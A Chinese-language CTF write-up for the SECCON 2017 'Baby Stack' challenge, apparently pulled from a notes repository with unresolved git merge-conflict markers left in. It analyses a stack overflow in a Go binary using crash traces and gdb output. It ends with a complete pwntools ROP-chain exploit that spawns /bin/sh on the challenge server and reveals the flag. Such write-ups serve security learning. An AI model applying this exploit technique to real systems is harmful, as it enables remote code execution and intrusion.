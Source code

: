 # SECCON CTF Quals 2017 - Notes

<<<<<<< HEAD
=======
## Baby Stack

[參考](https://teamrocketist.github.io/2017/12/13/Pwn-SECCON-Baby-Stack/)

保護只開 DEP 的 x64 題目，然後是 static linked

然後丟到 ida pro 不可以 f5 ，把一堆函數中的一個 runtime_memhash0

丟去 google 知道該程式是 go 語言寫的

用 ida pro 看 memcpy 可以看到有 overflow
```
; void __cdecl main_memcpy(uintptr dst, uintptr src, __int64 len)
public main_memcpy
main_memcpy proc near

dst= qword ptr  8
src= qword ptr  10h
len= qword ptr  18h

mov     rsi, [rsp+len]
mov     rdx, [rsp+dst]
mov     rcx, [rsp+src]
xor     eax, eax
cmp     rax, rsi
jge     short locret_401521
```

執行程式，一開始會要我們輸入 name 之後輸入 msg 

name 那邊沒 overflow ， msg 有，但是不是 segmentation fault

錯誤訊息是
```
root@lubun:/tmp/p# ./vul 
Please tell me your name >> a
Give me your message >> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA
unexpected fault address 0x0
fatal error: fault
[signal 0xb code=0x80 addr=0x0 pc=0x456551]

goroutine 1 [running]:
runtime.throw(0x507550, 0x5)
        /usr/lib/go-1.6/src/runtime/panic.go:547 +0x90 fp=0xc82003d5b8 sp=0xc82003d5a0
runtime.sigpanic()
        /usr/lib/go-1.6/src/runtime/sigpanic_unix.go:27 +0x2ab fp=0xc82003d608 sp=0xc82003d5b8
runtime.memmove(0xc82008c00b, 0x6941414d41413741, 0x4141)
        /usr/lib/go-1.6/src/runtime/memmove_amd64.s:83 +0x91 fp=0xc82003d610 sp=0xc82003d608
fmt.(*fmt).padString(0xc82006ebb8, 0x6941414d41413741, 0x4141)
        /usr/lib/go-1.6/src/fmt/format.go:130 +0x456 fp=0xc82003d730 sp=0xc82003d610
fmt.(*fmt).fmt_s(0xc82006ebb8, 0x6941414d41413741, 0x4141)
        /usr/lib/go-1.6/src/fmt/format.go:322 +0x61 fp=0xc82003d760 sp=0xc82003d730
fmt.(*pp).fmtString(0xc82006eb60, 0x6941414d41413741, 0x4141, 0xc800000073)
        /usr/lib/go-1.6/src/fmt/print.go:521 +0xdc fp=0xc82003d790 sp=0xc82003d760
fmt.(*pp).printArg(0xc82006eb60, 0x4c1c00, 0xc82000a380, 0x73, 0x0, 0x0)
        /usr/lib/go-1.6/src/fmt/print.go:797 +0xd95 fp=0xc82003d918 sp=0xc82003d790
fmt.(*pp).doPrintf(0xc82006eb60, 0x5220a0, 0x18, 0xc82003dea8, 0x2, 0x2)
        /usr/lib/go-1.6/src/fmt/print.go:1238 +0x1dcd fp=0xc82003dca0 sp=0xc82003d918
fmt.Fprintf(0x7fc637e951e8, 0xc82002a010, 0x5220a0, 0x18, 0xc82003dea8, 0x2, 0x2, 0x40beee, 0x0, 0x0)
        /usr/lib/go-1.6/src/fmt/print.go:188 +0x74 fp=0xc82003dce8 sp=0xc82003dca0
fmt.Printf(0x5220a0, 0x18, 0xc82003dea8, 0x2, 0x2, 0x20, 0x0, 0x0)
        /usr/lib/go-1.6/src/fmt/print.go:197 +0x94 fp=0xc82003dd50 sp=0xc82003dce8
main.main()
        /home/yutaro/CTF/SECCON/2017/baby_stack/baby_stack.go:23 +0x45e fp=0xc82003df50 sp=0xc82003dd50
runtime.main()
        /usr/lib/go-1.6/src/runtime/proc.go:188 +0x2b0 fp=0xc82003dfa0 sp=0xc82003df50
runtime.goexit()
        /usr/lib/go-1.6/src/runtime/asm_amd64.s:1998 +0x1 fp=0xc82003dfa8 sp=0xc82003dfa0

```

會這樣是因為並沒真正蓋到 ret ，用 gdb 可以看到

```
=> 0x401459 <main.main+1113>:   call   0x45ac40 <fmt.Printf>
   0x40145e <main.main+1118>:   add    rsp,0x1f8
   0x401465 <main.main+1125>:   ret    
```

這邊印出謝謝後就立即結束了，然後輸入太長會在 fmt.Printf 這邊 crash

重新執行看一下
```
root@lubun:/tmp/p# ./vul
Please tell me your name >> a
Give me your message >> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
unexpected fault address 0x0
fatal error: fault
[signal 0xb code=0x80 addr=0x0 pc=0x4567ff]

goroutine 1 [running]:
runtime.throw(0x507550, 0x5)
        /usr/lib/go-1.6/src/runtime/panic.go:547 +0x90 fp=0xc820037c60 sp=0xc820037c48
runtime.sigpanic()
        /usr/lib/go-1.6/src/runtime/sigpanic_unix.go:27 +0x2ab fp=0xc820037cb0 sp=0xc820037c60
runtime.memmove(0xc8200101a0, 0x6161616161616161, 0x20)

```

所以先算算 printf 的參數地址的 offset 是 104

所以需要先填一個合法地址

所以總結一下過程就是，目的是要可以執行到 ret 那邊並且 segmentation fault 

所以一開始要把兩次 printf 的參數值算好，這樣就會到 ret 那邊並算好 offset 

之後就是構造 ropchain

```
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
# r = remote('127.0.0.1',1234)
r = remote('baby_stack.pwn.seccon.jp', 15285)
pop_rax_ret = 0x00000000004016ea
pop_rsi_ret = 0x000000000046defd
pop_rdi_ret = 0x0000000000470931
pop_rdx_ret = 0x00000000004a247c
mov_drdi_rax= 0x0000000000456499
syscall_ret = 0x0000000000456889
bss = 0x005a0000+0x200
ropchain = [pop_rax_ret, bss, pop_rdi_ret, bss, pop_rax_ret, '/bin/sh\x00', mov_drdi_rax]
ropchain+= [pop_rax_ret, bss, pop_rdx_ret, 0, pop_rsi_ret, 0, pop_rax_ret, 0x3b, syscall_ret]


pay1 = 'a'*104 + p64(0xc820010140) + p64(6)
pay2 = 'a'*80 + p64(0xc820010140) + p64(6)
pay3 = 'a'*192 + flat(ropchain)
r.sendlineafter('>> ','a')
r.sendlineafter('>> ',pay1+pay2+pay3)

r.interactive()

## SECCON{'un54f3'm0dul3_15_fr13ndly_70_4774ck3r5}

```


## election
>>>>>>> 1659d1ca59f53ca6cc3ea262efbd10caaaebae73
